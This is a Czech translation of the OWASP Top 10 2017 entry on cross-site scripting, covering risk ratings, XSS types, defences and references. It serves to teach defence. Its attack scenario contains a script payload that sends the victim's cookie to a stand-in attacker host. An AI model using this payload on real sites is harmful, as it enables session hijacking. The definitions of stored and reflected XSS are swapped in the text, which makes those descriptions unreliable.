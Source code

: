 # A7:2017 Cross-Site Scripting (XSS)

| Původci hrozby/Vektor útoku | Bezpečnostní slabina           | Dopady               |
| -- | -- | -- |
| Aplikačně specifické : Zneužitelnost 3 | Rozšíření 3 : Zjistitelnost 3 | Technické 2 : Obchodní |
| Automatizované nástroje mohou detekovat a využívat všechny tři formy XSS a existují i volně dostupné frameworky. | XSS je druhým nejrozšířenějším problémem v OWASP Top 10 a nachází se v přibližně dvou třetinách všech aplikací. Automatizované nástroje mohou některé problémy XSS automaticky najít, zejména ve vyspělých technologiích, jako jsou PHP, J2EE/JSP a ASP.NET. | Dopad stored XSS a DOM XSS útoku je mírný. Pro reflected XSS je dopad vážný kvůli vzdálenému spuštění kódu v prohlížeči oběti, kdy může nastat krádež pověření, relace nebo doručení malwaru oběti. |

## Je aplikace zranitelná?

Existují tři formy XSS, obvykle zaměřené na prohlížeče uživatelů:

* **Stored XSS**: Aplikace nebo rozhraní API obsahuje jako součást výstupu HTML neověřený a neescapovaný vstup uživatele. Úspěšný útok může útočníkovi umožnit spustit libovolný HTML a JavaScript v prohlížeči oběti. Uživatel bude obvykle muset komunikovat s nějakým nebezpečným odkazem, který ukazuje na stránku ovládanou útočníkem, jako jsou škodlivé watering hole stránky, reklamy apod.
* **Reflected XSS**: Aplikace nebo API ukládá nesanitovaný vstup uživatele, který si později prohlédne jiný uživatel nebo administrátor. Trvalé XSS je často považováno za vysoké nebo kritické riziko.
* **DOM XSS**: JavaScript frameworky, single-page aplikace, a API rozhraní, které dynamicky zahrnují na stránku data kontrolovatelná útočníkem, jsou zranitelné vůči DOM XSS. V ideálním případě by aplikace neměla posílat data řízená útočníkem na nespolehlivá rozhraní API JavaScriptu.

Typické útoky XSS zahrnují krádeže relací, převzetí účtu, MFA bypass, nahrazení nebo znehodnocení DOM (například přihlašovací panely trojských koní), útoky proti prohlížeči uživatele, například stahování škodlivého softwaru, protokolování klíčů a další útoky na straně klienta.

## Jak se mohu bránit?

Prevence XSS vyžaduje oddělení nedůvěryhodných dat od aktivního obsahu prohlížeče. Toho lze dosáhnout:

* Používáním frameworků, které automaticky escapují XSS, například nejnovější Ruby on Rails, React JS. Nastudujte si jednotlivá omezení XSS ochrany u každého frameworku a případy, které nejsou ošetřeny, adekvátně vyřešte.
* Důkladné escapování všech nedůvěryhodných dat založených na kontextu HTML (body, attribute, JavaScript, CSS, nebo URL) vyřeší reflected a stored XSS chyby. [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)  poskytuje podrobnosti o požadovaných technikách úniku dat.
* Použití kontextového kódování při úpravách dokumentu prohlížeče na straně klienta se jeví jako obrana proti DOM XSS. Pokud tomu nelze zabránit, podobné kontextové techniky escapování lze použít na API prohlížeče, jak je popsáno v OWASP Cheat Sheet 'DOM based XSS Prevention'.
* Povolení [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) jako hloubkové obrany zmírňující kontrolu proti XSS. Je účinná, pokud neexistují žádné další chyby zabezpečení, které by umožňovaly umisťování škodlivého kódu prostřednictvím lokálních souborů (např. přepisy procházení cest nebo zranitelné knihovny z povolených sítí pro doručování obsahu).

## Příklady útočných scénářů

**Scénář #1**: Při konstrukci následujícího kousku HTML používá aplikace nedůvěryhodná data bez validace či escapování:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
Útočník změní parametr ‘CC’ ve svém prohlížeči na:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Tento útok způsobí odeslání ID relace oběti na webové stránky útočníka, což mu umožní unést aktuální relaci oběti.

**Poznámka**: Útočníci mohou pomocí XSS zdolat jakoukoli automatizovanou obranu Cross-Site Request Forgery (CSRF), kterou aplikace může používat.


## Odkazy

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Externí

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
